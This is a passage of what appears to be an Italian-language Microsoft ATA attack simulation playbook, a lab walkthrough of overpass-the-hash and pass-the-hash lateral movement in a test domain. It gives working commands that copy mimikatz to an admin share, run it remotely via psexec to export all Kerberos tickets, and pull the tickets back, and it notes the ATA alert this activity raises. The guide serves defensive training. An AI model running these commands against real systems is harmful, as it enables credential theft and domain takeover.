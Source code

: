     dir \\admin-pc\c$
   
Nella figura seguente è riportato un esempio del risultato di questo comando:

![Dir](./media/ata-attack-simulation-playbook/ata-attack-simulation-playbook-fig22.png)

Il risultato del comando dimostra che a questo punto si dispone dell'accesso all'unità C del computer *Admin-PC*. Ora si verificherà che il nuovo prompt dei comandi aperto ha inserito il ticket di *RonHD* e non è semplicemente stato configurato in modo errato *JeffV* con diritti di lettura.

Successivamente si analizzeranno i ticket nel prompt dei comandi overpass-the-hash. Dal nuovo prompt dei comandi che si è aperto in seguito all'attacco overpass-the-hash, eseguire il comando seguente:

    klist

Nella figura seguente è riportato un esempio del risultato di questo comando:

![klist](./media/ata-attack-simulation-playbook/ata-attack-simulation-playbook-fig23.png)

Come si può vedere, ora si rappresenta *RonHD* in questo prompt dei comandi il che testimonia che sono state usate le sue credenziali legittime per accedere al suo *Admin-PC*.

Si sarà probabilmente notato che Microsoft ATA ha generato un avviso relativo a un'implementazione insolita del protocollo, come illustrato di seguito. Ciò accade perché overpass-the-hash usa NTLM e di conseguenza RC4. Dal punto di vista del difensore, si apprenderà che sul computer *Victim-PC*, l'account di RonHD si è autenticato con il controller di dominio.  È quindi possibile iniziare l'analisi.

![Protocollo insolito](./media/ata-attack-simulation-playbook/ata-attack-simulation-playbook-fig24.png) 

<a id="domain-escalation" class="xliff"></a>
### Escalation al dominio

L'autore dell'attacco dispone ora dell'accesso ad *Admin-PC*, un computer che dall'esplorazione precedente è stato identificato come efficace vettore dell'attacco per compromettere l'account con privilegi elevati *NuckC*. L'autore dell'attacco adesso desidera spostarsi in *Admin-PC*, realizzando un'escalation dei propri privilegi all'interno del dominio.

A tale scopo l'autore dell'attacco raccoglierà le credenziali eseguendo un attacco [Pass-the-Hash](https://www.microsoft.com/security/sir/strategy/default.aspx#!pass_the_hash_defenses) che ci consentirà di spostarci in *Admin-PC*.   

Dal nuovo prompt dei comandi, in esecuzione nel contesto di *RonHD*, passare alla sezione del file system in cui si trova mimikatz da quella libreria ed eseguire il comando seguente:

    xcopy mimikatz \\admin-pc\c$\temp

Successivamente eseguire mimiKatz da remoto per esportare tutti i ticket Kerberos da *Admin-PC*, con il comando seguente:

    psexec.exe \\admin-pc -accepteula cmd /c (cd c:\temp ^& mimikatz.exe “privilege::debug” “sekurlsa::tickets /export” ^& “exit”)

Copiare di nuovo i ticket in *Victim-PC* con il comando seguente:

    xcopy \\admin-pc\c$\temp c:\temp\tickets
